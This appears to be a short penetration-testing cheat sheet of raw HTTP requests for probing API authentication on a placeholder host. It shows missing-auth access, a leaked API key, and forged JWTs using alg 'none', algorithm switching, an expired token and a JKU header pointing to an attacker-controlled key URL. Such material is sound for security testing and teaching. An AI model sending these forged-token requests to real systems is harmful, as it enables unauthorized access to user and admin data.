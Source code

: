 
## API Authentication

### Missing Authentication
```http
GET /api/v1/users HTTP/1.1
Host: target.com
```

### API Key Leak
```http
GET /api/v1/admin/settings HTTP/1.1
Host: target.com
X-API-Key: 6b8e5f4a-3c2b-1e9d-8f7a-6b5c4d3e2f1a
```

### JWT None Algorithm
```http
GET /api/user/profile HTTP/1.1
Host: target.com
Authorization: Bearer eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```

---

## JWT Attacks

### Algorithm Switching
```http
GET /api/user HTTP/1.1
Host: target.com
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.wrongsignature
```

### Expired Token
```http
GET /api/user HTTP/1.1
Host: target.com
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE2MDAwMDAwMDB9.old_signature
```

### JKU Exploit
```http
GET /api/user HTTP/1.1
Host: target.com
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vYXR0YWNrZXIuY29tL2tleXMuanNvbiJ9.evil_payload
```

---
